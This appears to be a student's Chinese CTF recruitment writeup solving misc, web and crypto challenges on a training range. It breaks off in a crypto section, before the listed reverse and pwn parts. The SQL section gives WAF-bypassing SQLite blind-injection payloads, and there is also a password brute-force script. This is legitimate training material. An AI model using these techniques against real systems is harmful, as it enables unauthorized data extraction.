# **GUETSEC-2026招新考核WP**
#### 姓名：梁丞佑 
#### 学号：2600360124
#### 靶场名称：https://ctf.guetsec.cn/
#### 队伍名称：karasawa

# 目录
- [Misc](#misc)
  - [你vim不过我你信不信](#你vim不过我你信不信)
  - [深夜广播](#深夜广播)
  - [capture](#capture)
  - [键盘手逃走了](#键盘手逃走了)
  - [doro的base操作](#doro的base操作)
  - [少商](#少商)
- [Web](#web)
  - [JWT](#jwt)
  - [SQL](#sql)
- [Crypto](#crypto)
  - [进制转换](#进制转换)
  - [shared-prime](#shared-prime)
  - [shadow](#shadow)
  - [匆忙的密钥](#匆忙的密钥)
- [Reverse](#reverse)
  - [开开心心来签个到](#开开心心来签个到)
  - [EZMAZE](#ezmaze)
  - [signup](#signup)
  - [Flowers](#flowers)
  - [PY交易](#py交易)
  - [BigRound](#biground)
  - [GuessTheNumber](#guessthenumber)
- [Pwn](#pwn)
  - [赛尔号出发](#赛尔号出发)
  - [README--做题之前必看](#做题之前必看)
  - [灯神的愿望](#灯神的愿望)
- [附件](#附件)

---

## Misc

### 你vim不过我你信不信

#### 一、解题思路

```
USB HID 报文 → 提取 Usage ID → 映射按键 → 分离不同阶段的操作
→ 还原 5×5 字母阵 → 模拟 Vim hjkl的光标移动 → 记录途径字符 → flag
```

#### 二、分析过程
##### 2.1 USB HID Usage ID 映射
```bash
    0x04:'a', 0x05:'b', 0x06:'c', 0x07:'d', 0x08:'e', 0x09:'f',
    0x0a:'g', 0x0b:'h', 0x0c:'i', 0x0d:'j', 0x0e:'k', 0x0f:'l',
    0x10:'m', 0x11:'n', 0x12:'o', 0x13:'p', 0x14:'q', 0x15:'r',
    0x16:'s', 0x17:'t', 0x18:'u', 0x19:'v', 0x1a:'w', 0x1b:'x',
    0x1c:'y', 0x1d:'z', 0x28:'\\n', 0x29:'[ESC]', 0x2c:' '
```
##### 2.2 USB HID 报文格式

USB 键盘的 HID 报文固定为8 字节，结构如下：

| 字节偏移 | 含义 |
|---|---|
| Byte 0 | 修饰键（Ctrl / Shift / Alt / Gui） |
| Byte 1 | 保留位（恒为 0） |
| Byte 2 ~ Byte 7 | 按键 Usage ID（最多同时按 6 个键） |

题目给的数据中，每次按键只有 Byte 2 非零，其余全 0，说明每次只按一个键。
每两行报文为一组：**第一行是按键按下**，**第二行全是按键释放**。
```
00:00:0c:00:00:00:00:00    按下 Usage ID 0x0c
00:00:00:00:00:00:00:00    释放
```

##### 2.3 提取按键序列

对照USB HID Usage ID 映射，得出所有操作过程 

| Usage ID | 按键 | Usage ID | 按键 |
|---|---|---|---|
| 0x04 | a | 0x10 | m |
| 0x05 | b | 0x11 | n |
| 0x06 | c | 0x12 | o |
| 0x07 | d | 0x13 | p |
| 0x08 | e | 0x14 | q |
| 0x09 | f | 0x15 | r |
| 0x0a | g | 0x16 | s |
| 0x0b | h | 0x17 | t |
| 0x0c | i | 0x18 | u |
| 0x0d | j | 0x19 | v |
| 0x0e | k | 0x1a | w |
| 0x0f | l | 0x1c | y |
| 0x1d | z | 0x28 | Enter |
| 0x29 | Esc | 0x2c | Space |

##### 2.4 分离多个阶段

整个按键序列在 **0x29（Esc）** 处一分为二：

**Esc 之前的所有操作：**

```
i
g k p q r
u e t m v
a b i s z
c d o f h
y l w u n
```

> 第一个 `i` 是 Vim 普通模式下按 `i` 进入 Insert 插入模式的命令,去掉它之后正好是一个规整的 5×5 字母矩阵

**Esc 之后在Vim普通模式下的hjkl移动：**

```
k k k k k k k k k k   （连续按了 10 次上）
h h h h h h h h h h   （连续按了 10 次左）
j l l j l j j l       （真正的"路线"）
```

##### 2.5 模拟光标走位

打完 5 行字母后按了回车，光标停在第 6 行（空行）第 0 列。按 Esc 进入普通模式后：

10 次 k上 + 10 次 h左
按上和左把光标怼到了左上角

接着是真正的路线 `j l l j l j j l`

| 步数 | 按键 | 方向 | 字母 |
|---|---|---|---|
| 起点 | — | — | **g** |
| 1 | j | 下 | **u** |
| 2 | l | 右 | **e** |
| 3 | l | 右 | **t** |
| 4 | j | 下 | **i** |
| 5 | l | 右 | **s** |
| 6 | j | 下 | **f** |
| 7 | j | 下 | **u** |
| 8 | l | 右 | **n** |

依次经过guetisfun

#### 三、最终 Flag
结合提示的flag格式GUET{}
```
GUET{guetisfun}
```

### 深夜广播

#### 一、思路

```
需要不同尝试才能发现散布的flag
缺定位符二维码修复解码，得到flag第1段
值班室照片.jpg 提取尾部附加数据, 提取 flag 第2段
神秘音频.wav看频谱图得到flag第3段
拼接得到flag
```

#### 二、分析过程

##### 2.1 损坏的二维码.png
二维码无法直接识别，用工具添加定位符后，识别出
```
flag{ye_ban_
```
即 flag 的前半段为 `ye_ban_`。

##### 2.2 值班电脑室里的照片.jpg

用十六进制编辑器打开 JPG，滚动到文件末尾，发现 JPG 结束标记`FF D9`后还有一段数据



```
guang_bo_
```

##### 2.3 神秘音频.wav

音频听不出内容，用 Audacity打开频谱图观察，在频谱中可以看到明文字符



```
xin_hao}
```

#### 三、最终 Flag
3段进行拼接，得到flag
```
flag{ye_ban_guang_bo_xin_hao}
```

### capture

#### 一、思路
```
wireshark查看
pcap1 过滤 HTTP 发现 X-password 请求头（base64 解码得密码）和 GET /files/secret.zip
pcap2 追踪 TCP 流 → 提取完整的 secret.zip
用密码解压 secret.zip → 得到 hidden.png
分析hidden.png 发现LSB隐写的flag
```

#### 二、分析

##### 2.1 pcap1找有效信息

wireshark里，capture_1.pcap，过滤 `http`，在 `POST /upload HTTP/1.1` 请求里发现字段

```
X-password: UEBzc3cwcmQyMDI2
```



base64解码得到 `P@ssw0rd2026`

`GET /files/secret.zip` 请求了一个secret.zip，但是不完整 

zip 包的后半段数据不在这个 pcap 里

##### 2.2 pcap2TCP流找完整secret.zip

发现是PK，.zip后缀的文件


`capture_2.pcap`  右键包，追踪流 ，TCP stream，显示为原始数据，然后另存为`secret.zip`


##### 2.3 解压zip  分析隐写

密码 `P@ssw0rd2026` 解压 `secret.zip`
zsteg分析`hidden.png`发现LSB隐写flag


#### 三、最终flag
`Flag{L5B_1s_N0t_H4rd_2_F1nd}`

### 键盘手逃走了
#### 一、思路

多层图片隐写，从 `Viola.jpg` 开始逐层分析，foremost 分离,得到伪加密的c.zip, CRC 修复 PNG

```
Viola.jpg foremost 提取 00000504.zip
伪加密修复 c.zip
根据Viola_3.png 提示的修复ctfer.png的 IHDR 高度 得到flag
```

#### 二、分析

##### 2.1 foremost 分离 Viola.jpg

用 binwalk 检查 `dist` 下的图片，发现 `Viola.jpg` 有2.4MB
用 foremost 提取

```bash
foremost -i Viola.jpg -o extract
```

提取出 2 个 jpg、1 个 zip、2 个png， `00000504.zip` 是关键。

##### 2.2 伪加密c.zip

解压 `00000504.zip`得到 `2.txt`、`c.zip`、`Viola_2.png`   
`2.txt` 提示
> 那锁我只是随手一扣，根本没锁严——逗你玩的啦

`c.zip` 是伪加密，把全局方式位标记和中央目录文件头的加密标志位都改为0后解压，得到
- `3.txt` 提示"队标图片被切开了"
- `ctfer.png`
- `Viola_3.png`

打开 `Viola_3.png`，底部文字给出提示


> "I trimmed its height and left the CRC crying - raise it up!"

 `ctfer.png` 的高度被修改了，导致 CRC 校验失败

##### 2.3 修复 CRC

用 010 打开 `ctfer.png`，定位 IHDR 数据块，IHDR往后的5~8字节是高度，爆破CRC后修复成00 00 04 26，或者用工具一键修复




图上文字为 `flag dream welcome to guetsec ctfer`，用下划线连接

#### 三、最终 Flag

```
flag_dream{welcome_to_guetsec_ctfer}
```

### doro的base操作

#### 一、思路

题目给了一个 `.docm` 文件（启用宏的 Word 文档），里面叠了四张图片，flag 分成两部分

```
第4张图是二维码，扫码得到一串 base64，解密base64最后2bit隐写得到 flag 后半段
直接解压docm，olevba 提取 VBA 宏，运行宏得到超长 base64，base64解码
是社会主义核心价值观，解码得到"南北绿豆"四进制编码
用已知前缀 GUET{ 反推编码表，解码得到 flag 前半段
拼接两部分GUET{w0_wO_Wo_ya_Ya_yA}
```

#### 二、分析

##### 2.1 docm 文件与四张重叠图片

`.docm` 和 `.docx` 的区别：docm 是启用宏的 Word 文档，可以内嵌 VBA 宏，打开文档后看到四张重叠的图片，前三张用 aperisolve 全面检查（EXIF、LSB、binwalk、CRC）均无有效信息

第四张是一个复杂的二维码，识别得到 32 行 base64，它们前面全部相同

```
SXMgdGhpcyBqdXN0IGEgYmFzZTY0X2VuY29kZT9=
```

解码后是 `Is this just a base64_encode?` **只有每行最后一个字符不同**，是 base64 尾部隐写

##### 2.2 Base64 隐写，提取最后 2 bit

Base64 每个字符编码 6 bit，但最后一个字符只有前 4 bit 参与明文，后 2 bit 是补零，利用这 2 bit 隐藏信息

| 最后字符 | ASCII | 6 bit 二进制 | 最后 2 bit |
|---|---|---|---|
| `9` | 61 | 111101 | `01` |
| `/` | 63 | 111111 | `11` |
| `+` | 62 | 111110 | `10` |
| `8` | 60 | 111100 | `00` |

把 32 行最后一个字符的最后 2 bit 全部串起来，每 8 bit 切分一个 ASCII 字符：

```
01111001 01100001 01011111 01011001 01100001 01011111 01111001 01000001
```
得到`ya_Ya_yA`

##### 2.3 提取 VBA 宏

docm 本质是 ZIP 包，改后缀解压后，VBA 宏存放在 `word/vbaProject.bin`
用 olevba 提取：进入到zip包解压后得到的文件夹，在cmd运行（要有py环境）

```bash
pip install oletools
olevba word\vbaProject.bin > XXX.txt
```

宏代码中 `OutputBase64` 子过程拼了一大段 base64 字符串，在 Word 中按 `Alt+F8` 运行该宏输出字符串，解码

解码后得到一段社会主义核心价值观编码

##### 2.4 社会主义核心价值观，南北绿豆四进制

用工具将核心价值观文本解码，得到一串"南北绿豆"序列：

```
南北南绿 南南南南 南北南南 南南南北 南绿豆绿 南绿南绿 北绿北北
 南南绿绿 南绿南绿 南北绿绿 南南绿绿 南南南绿 南豆绿绿
```

题目提示解出来是带 `GUET{` 开头的字符串。已知 ASCII：

| 字符 | ASCII | 8 bit 二进制 |
|---|---|---|
| G | 71 | `01000111` |
| U | 85 | `01010101` |
| E | 69 | `01000101` |
| T | 84 | `01010100` |

每 4 个四进制符号 = 8 bit = 1 个 ASCII 字符。反推编码表

```
G = 01 00 01 11 → 南 北 南 绿
U = 01 01 01 01 → 南 南 南 南
E = 01 00 01 01 → 南 北 南 绿
T = 01 01 01 00 → 南 南 南 北
```

得出：**南=1，北=0，绿=3，豆=2**

用此编码表对南北绿豆序列进行解码，得到 flag 前半段：**`GUET{w0_wO_Wo`**

题目提示 flag 分两部分用下划线连接

前半段（南北绿豆解码）：`GUET{w0_wO_Wo`
后半段（base64 隐写）：`ya_Ya_yA`

#### 三、最终 Flag

```
GUET{w0_wO_Wo_ya_Ya_yA}
```

### 少商

#### 一、思路

一个被删过东西的 Docker 容器镜像，被删除的文件并没有真正消失
解题流程是从 Docker 镜像层中恢复被删文件，再通过图片隐写、音频频谱、AES 解密得flag

```
shaoshang.tar (Docker镜像)
  docker 发现文件被 COPY 后被 RUN 删除
  创建layers解包，找到包含 secret.zip 的历史层
  note.txt 提示图片和音频隐写
  avatar.png 尾部拼接了WAV 频谱图得到密码 shaoshangxian
  解压 secret.zip  cipher.txt Salted__ ，AES-256-CBC
  note.txt 密码 aizengfenming
  AES 解密得 flag
```

#### 二、分析过程

##### 2.1 Docker 镜像层恢复被删文件
题目给了 `index.html`、`shaoshang.tar` 和 `题目说明.txt`
`shaoshang.tar` 是一个 Docker 镜像归档

加载镜像并查看构建历史，在kali

```bash
docker load -i shaoshang.tar
docker images
docker history --no-trunc shaoshang
```


发现构建过程中先 `COPY note.txt avatar.png secret.zip /app/`，然后下一层 `RUN` 命令把它们删掉了，但 Docker 的分层文件系统中，**删除只是在新层中标记白名单，旧层的文件内容依然存在**

导出镜像并遍历所有 blob 层，找到包含这三个文件的那一层：

```bash
mkdir layers && tar -xf shaoshang.tar -C layers

sudo chown -R 你的用户名:你的用户名 文件或文件夹  //解除layers需要的root权限

for f in blobs/sha256/*; 
do 
  echo "==== $f ===="; tar -tf "$f" 2>/dev/null | grep -E "secret.zip|note.txt|avatar.png"
done
//丢弃报错信息，如果有 secret.zip note.txt avatar.png 则列出
```



例如发现了`secret.zip` `note.txt` `avatar.png`在`sha256/1225f...`
```bash
mkdir extract
tar -xf layers/blobs/sha256/1225f234e15a874905c2cde3d9d067c70930e640c496226e34a6db0387fd423f 
-C extract
//创建extract文件夹，提取内容
```

##### 2.2 note.txt 提示

`note.txt` 内容：

> 听那段笛声，看那张头像，表象之下，另有乾坤。
> 若还要解开最后一把锁，且问她这一生，爱憎可分明？

提示图片和音频隐写，提示最终密码

##### 2.3 avatar.png 尾部隐藏 WAV

用 010 检查 `avatar.png`，在 PNG 文件末尾拼接了一段 .WAV，分离，用 Audacity 打开频谱图，可见文字 `shaoshangxian`，这是 `secret.zip` 的解压密码
，得到cipher.txt


##### 2.4 cipher.txt —— AES-256-CBC 加密

`cipher.txt` 为base64，解码后开头是 `Salted__`，这是OpenSSL加密文件时留下的一个特征头，加盐 AES 加密格式

```
U2FsdGVkX19+CXEIqBnJ3IrZKSjIDDa0YYTAhmRVFnGVylTvnEoYPIA2bf7m/i/V
j3BcTxHO4qHLDBkpOabQRCatoARS/sae7/84hlNvrdU=
```

note.txt 提示"爱憎可分明"，密码可能是`aizengfenming`，使用 AES 解密工具（PBKDF2 + SHA256，CBC，PKCS7，256 位）得到flag
[TOOL](https://emn178.github.io/online-tools/aes/decrypt/)

#### 三、最终 Flag

```
GUET{Riding alone, roaming freely across the world}
```


## Web

### JWT

#### 一、思路

题目名提示 JWT（JSON Web Token）

```
  html源码提示 int(time.time()) - int(password) < 5
  控制台用 Date.now()/1000 填密码, 还是 miss 
  本地时钟与服务器不同
  fetch / 拿服务器 Date 头反推时间戳, 填密码框提交
  Login success，Cookie 发现 token
  解码 JWT
  payload.gift 是 base32 解码得 flag
```

#### 二、分析

##### 2.1 看页面反应
> The moment you've been waiting for is finally here!
> But be careful, the moment is fleeting.


用户名试 `admin`，密码随便，页面跳回登录框，提示
```
>>> You missed the moment! <<<
```

##### 2.2 F12 看源码看注释

在密码框下面，有一行注释

```html
<input type="password" name="password" id="password" placeholder="The moment now is..." />
<!-- maybe... int(time.time()) - int(password) < 5 -->
```

提示了服务端校验逻辑

##### 2.3 读懂校验逻辑

第一个 `time` 是 Python 标准库，提供时间相关函数
第二个 `time.time()` 返回当前的 Unix 时间戳,秒
`int(time.time()) - int(password) < 5` 
服务端把用户提交的密码强制转成整数，和服务器当前时间戳做差，差值要小于 5

密码应该填当前的 Unix 秒级时间戳，有大约 5 秒的容错，用户名没有限制

##### 2.4 尝试用本地时间戳

浏览器控制台里没有直接返回秒级时间戳的原生函数，`Date.now()` 拿到的是毫秒，除以 1000 再用 `Math.floor` 取整。在 Console 里执行：

```javascript
document.getElementById("password").value = Math.floor(Date.now() / 1000);
document.querySelector("form").submit();
```

提示 `You missed the moment!`

##### 2.5 用服务器时间戳登录

先 fetch 一次首页，从响应头 `Date: Fri, 02 Oct 2026 01:10:53 GMT` 里取服务器自己的时间，转成 Unix 时间戳填进密码框再提交
提前把开发者工具Network的`保留日志`打开

```javascript
fetch('/', {cache: 'no-store'}).then(r => {
  const ts = Math.floor(new Date(r.headers.get('Date')).getTime() / 1000);
  document.getElementById("password").value = ts;
  document.querySelector("form").submit();
  });
```
页面出现提示
```
>>> Login success! <<<
```

Network里找 `login` 的响应，在Cookies有 `token`



把JWT在工具解码


`gift` 里面是base32的编码
解出一段 UUID 格式字符串

#### 三、最终 Flag

```
flag{d820402b-0861-45a4-855c-bb2e370ac65a}
```
不同时间段会生成不同的 UUID,以自己得到的cookie为准

[JWT解码工具](https://www.jwt.io/)


### SQL

#### 一、思路

```
查看页面源码，发现 SQLite 数据库 ORDER BY 注入点
分析两层 WAF 过滤规则（字符黑名单 + 关键词黑名单）
利用两行数据的排序差异构造布尔盲注信号
用 char() 绕过引号，instr() 绕过比较运算符, min() 绕过 and
子查询 + group_concat() 绕过 WHERE 
hex() + substr() 逐字符提取 sqlite_master 表结构
定位 flag 存储位置，逐字符提取出完整 flag
```

#### 二、分析

##### 2.1 代码审计

```php
$order = $_GET['order'] ?? 'id';

//字符黑名单
if (preg_match('/[\'":;=<>!|&~^%\-\+\*\/]/', $order)) {
    die("安全拦截：请求参数异常 (0x01)");
}

//关键词黑名单
if (preg_match('/\b(in|is|like|glob|match|regexp|and|or|not|iif|case|if|when|then|else|where|union|join|nullif|coalesce)\b/i', $order)) {
    die("安全拦截：请求参数异常 (0x02)");
}

$db = new PDO("sqlite:/tmp/ctf.db");
$query = "SELECT id, name, upload_date FROM files WHERE is_secret = 0 ORDER BY $order";
$stmt = $db->query($query);
```

关键信息：

| 项目 | 内容 |
|---|---|
| 数据库 | SQLite |
| 注入点 | `ORDER BY $order` 直接拼接 |
| 已知列 | id, name, is_secret, upload_date |
| 查询条件 | `WHERE is_secret = 0` 机密文档被过滤 |
| 回显 | 成功则返回 JSON 数据，失败返回"数据库查询异常" |

被过滤的字符：`' " : ; = < > ! | & ~ ^ % - + * /`

被过滤的关键词：`in, is, like, glob, match, regexp, and, or, not, iif, case, if, when, then, else, where, union, join, nullif, coalesce`

##### 2.2 布尔盲注原理

页面只有两条公开数据

| id | name |
|---|---|
| 1 | Zebra_Core_System_Docs |
| 2 | Apple_Network_Topology |

测试 `order=substr(name,1,1)`，发现排序结果反转

```json
{"data":[{"id":2,"name":"Apple_Network_Topology"},{"id":1,"name":"Zebra_Core_System_Docs"}]}
```

substr 取首字符 'A' < 'Z'，所以 Apple 排前面

由此建立盲注信号

Zebra 在前（正常顺序） 条件为假
Apple 在前（反转顺序） 条件为真

##### 2.3 核心 Payload 构造

利用 `min()` 函数把"行特征"和"数据库条件"组合起来

```sql
min(instr(name, char(90)), 条件值)
```

`instr(name, char(90))` 检查 name 里有没有 'Z'
id=1（Zebra）：返回 1
id=2（Apple）：返回 0

当条件值 = 0（条件为假）
id=1: `min(1, 0) = 0`
id=2: `min(0, 0) = 0`
两行排序键相同 → 保持原始顺序（Zebra 在前）

当条件值 > 0（条件为真）
id=1: `min(1, 条件值) = 1`
id=2: `min(0, 条件值) = 0`
排序键不同 → 排序反转（Apple 在前）

实现布尔盲注，用 `min()` 代替了被过滤的 `and`

##### 2.4 绕过过滤

| 被过滤的功能 | 绕过方法 |
|---|---|
| 引号 `'`（字符串） | `char(97,98,99)` 函数生成字符串 |
| 等号 `=`（比较） | `instr()` 函数返回 0/1 |
| `and`（逻辑与） | `min(a, b)`  |
| `where`（筛选行） | 子查询 + `group_concat()` 全量提取 |
| 逐字符提取 | `hex()` + `substr()` |

##### 2.5 提取数据库结构

利用子查询绕过 WHERE 限制，从 `sqlite_master` 提取表名

```sql
(SELECT group_concat(name) FROM sqlite_master)
```

逐字符提取 hex，得到表名

```
files,sqlite_sequence
```

再提取建表语句（`sql` 列）

```sql
CREATE TABLE files (
    id INTEGER PRIMARY KEY AUTOINCREMENT,
    name TEXT NOT NULL,
    is_secret INTEGER DEFAULT 0,
    upload_date TEXT
)
```

确认 files 表没有 flag 列
Flag 藏在某一行的 `name` 字段中（`is_secret=1` 的机密文档）

##### 2.6 提取所有文档名

直接从 files 表聚合所有 name（绕过 `WHERE is_secret = 0`）：

```sql
(SELECT group_concat(name) FROM files)
```

用 `hex()` + `substr()` 逐字符提取，脚本遍历 16 个 hex 字符（0-9, A-F）猜每个位置，最终得到

```
Zebra_Core_System_Docs,Apple_Network_Topology,GUET{SQL1t3_fUnct10ns_0nly_N0_sp4c3s}
```

#### 三、最终 Flag

```
GUET{SQL1t3_fUnct10ns_0nly_N0_sp4c3s}
```
SQLite functions only, no spaces
全程只用数据库内置函数完成注入，不需要任何比较运算符或逻辑控制流


自动化盲注脚本 SQL.py


## Crypto

### 进制转换

#### 一、思路

 HTML 实体编码（`&#56;`），解码后是一堆混杂了十进制、八进制、十六进制的数字字面量，每个数字对应一个 ASCII 字符，拼接字符得到flag

```
  HTML 数字实体
  html.unescape 解码
  将得到的含3种进制的字符串
  转成 ASCII 字符
  拼出明文
```

#### 二、分析

##### 2.1 解码HTML
`&#NN;` 对应一个 ASCII 字符

python 解码HTML实体

```python
import html
raw = "XXX"     #题目给的html
decode = html.unescape(raw)
print(decode)
```

得到包含10，8，16进制数据的字符串


##### 2.2 进制转化

```python
parts = decoded.split()     # split分隔独立数据
result = bytes(int(part, 0) for part in parts)  # int(part, 0)参数0自动识别进制
print(result)
```

```
b'Welcome to participate in the HJSEC assessment. The flag is HJSEC {Enjoy your life, passes!}. This is a sentence from the former minister'
```
删掉HJSEC' '这里空格

#### 三、最终 Flag

```
HJSEC{Enjoy your life, passes!}
```

### shared-prime

#### 一、思路

两个 RSA 公钥模数 n1、n2 共用了同一个素数 p（n1 = p·q1，n2 = p·q2）求 gcd(n1, n2) 最大公约数,就能拿到 p，然后分解 n1，算出私钥 d，解密密文 c

```
n1 = p·q1,  n2 = p·q2
  gcd(n1, n2) = p
  q1 = n1 / p
  φ(n1) = (p-1)(q1-1)
  d = e^(-1) mod φ(n1)   模逆元
  m = c^d mod n1
```

#### 二、分析

##### 2.1 题目给的数据

```
n1、n2 由同一个素数 p 生成
n1 = 0xdc0b771f...
n2 = 0xf5043da7...
e  = 65537
c  = 0xd4a5d048... 密文
```

##### 2.2 RSA的原理
选两个大素数 p，q

```
n = p × q
φ(n) = (p-1)(q-1)
```

选一个小奇数 e（通常 65537），求它的逆元 d

```
(e×d) % φ(n) == 1
d = e⁻¹ mod φ(n)
```

公钥 = (e, n)，公开
私钥 = (d, n)，保密

用公钥 e 加密消息 m，得到密文 c

```
c = m^e mod n
```

收到密文 c，用私钥 d 解密：

```
m = c^d mod n
```

`(m^e)^d ≡ m (mod n)`，所以加解密能互逆
题目说了n1和n2有一个共同素数p，gcd函数求最大公约数就可以求出p
RSA 的加解密指数必须满足 e * d ≡ 1 (mod φ(n))
知道了p就可以一路反推私钥d

##### 2.3  py脚本


```python
from math import gcd
from Crypto.Util.number import long_to_bytes

n1 = int("dc0b771fb17a99afab6081ce478a38382edd0aad7496b423a75df913d8bc36e64180389909e7ddf0d156584e5b9a823729664c14a83b45c8c84b96a382cdeaf1e5e12b2e098f5e63004e34143f15ffaa2520a7a3e28f16707853710a04d55f96f44d9365e80796b693afbb5a96b2134311e0e34da22d8dc76098c6d49fe337a02f2833aaa325ef1d5de79a15b99f64e34ab2f31f24df6da2155a84ab732707ca5abe9c7d3f005d1e86cb3a9ce56147fcc3f525bada7e409bfdad5628a789fff9c274f291616bc62d9ec2abf30984d498705a39499ed792dba94a6e99db8d7bf1f8b6c0a8a56d2068946c4a5899dcaa5a43f89d7f18885333002cd594c9a9df61", 16)
# a
n2 = int("f5043da7c46df94a6d4aa0677e3191af2bd43f93634ed109551a8a8998c4fc75a1a34992a5d6b79e4f81814ebaf83b1359e66d7f9fea8299529eb1c366d463f9a32df7eee88395d3002f061ecc89aa690a3ea070442e836671d080adccb87f01d7075e94665cf9bb18258ef5bb8f621690741224a096ead2c2610de4081f78668c1db40c2d7ab9239f1c4e647926ee8013fb95e6b823139f48d08b28a0a545568d1915b019340e15237486c2b281ef1718210999102a7f1f103d03dbefd7298c3e2cee8bb13dd080f212ee32bdb797aaa16efb6f3a7dc36fb434f81a2af2cd33992bf226ecf7a4dfa9cc9558824dc40bf3f9cf8776de24067ea308ab0af47013", 16)
# b
c  = int("d4a5d04812e658ad726baeb8dc64e8e769b167ae7dffa5f18f1bcc28220795ec0271bb02448895ab36b2e54ff36fcf99090d2f178d37c0d459b4daaafb69c13274c4a92fb34d5a130b2e4258db3f7a0bfd0fbae9b348e67b695f5b0880a595f53e45db571a480429e7d42bd8f57b1eb6811de8f61846d6153890e03ba4adc17824ff6c0a10463227a59a36d0389066b6aecdbaaacf0accb7b4dafe25d289ec752802c88a1c3775d347c22b2d38f0eae8a824f60a0f922203bbb5f3f94656d5501fcf4745bcb95d65871759f34fa6a7dd50cdeab53044127d8ab39f74c07279e970381b2453034a14869326d67314dd508b439b2dffb1085df0309a865f2650d1", 16)
e = 65537

p = gcd(n1, n2)   #最大共约数,共享素数p
q1 = n1 // p    # 分解 n1 求 q1
phi = (p - 1) * (q1 - 1)    # phi个数与n1互质
d = pow(e, -1, phi)     # py这里的 -1 是模逆元运算
m = pow(c, d, n1)     # c的d次方，取模得到明文m
print(long_to_bytes(m))     # 大整数按字节转成可读的 ASCII 字符串
```
得到

```
b'HJSEC{sh4r3d_pr1m3_br34ks_rs4}'
```

#### 三、最终 Flag

```
HJSEC{sh4r3d_pr1m3_br34ks_rs4}
```

### shadow

#### 一、思路

给了一个 Linux shadow 口令文件和它的旧备份，提示 alice 的密码是 6 位纯数字
哈希算法是 `SHA256(salt + password)`，直接暴力枚举就能得到口令

```
  .bak alice 的 salt 和 hash
  salt=35712258, hash=cd4693...
  枚举 6 位数字口令的hash
  SHA256(salt + password) 逐个比对 target_hash
  相等则说明口令正确
```

#### 二、分析

##### 2.1 加密算法

`用户名:$7$salt$hash`，题目说`$7` 表示 SHA256-crypt算法
`hash = SHA256(salt + password)`，盐值和密码拼接后做一轮 SHA-256

##### 2.2 提取 alice 的盐和哈希

从 `shadow.bak` 得到 alice 的数据
或者shadow原件也可以,算出来的口令是一样的

salt = `35712258`
target_hash = `cd46936c5c396f66b2971b12d427563a3b0d9a671a8ee0e9eb7e809571d3ddb7`

##### 2.3 枚举 6 位纯数字口令

6 位纯数字一共 100 万种,直接py暴力跑

```python
import hashlib  # 哈希库

# 已知的盐值，和口令拼接后再做哈希
salt = "35712258"

#暴力计算求哪个 6 位数字口令能算出这个hash
true_hash = "cd46936c5c396f66b2971b12d427563a3b0d9a671a8ee0e9eb7e809571d3ddb7"

# 枚举所有可能的 6 位数字口令
for i in range(1000000):
    password = str(i).zfill(6)  # zero-fill,在字符串的左边补零到6位

    # salt与password进行拼接转字节串，然后计算 SHA-256，转成十六进制字符串
    hash = hashlib.sha256((salt + password).encode()).hexdigest()

    # 哈希和目标哈希一致，则输出口令
    if hash == true_hash:
        print(f"口令: {password}")
        break
```
输出:

```
口令: 231741
```

#### 三、最终 Flag

```
flag{231741}
```
py脚本

### 匆忙的密钥

#### 一、思路

```
尝试枚举 600 个种子复现 LCG 素数生成，错误
→ 观察 n 的十六进制结构
→ 发现中间一大片连续零，说明 p、q 头尾有数中间全零
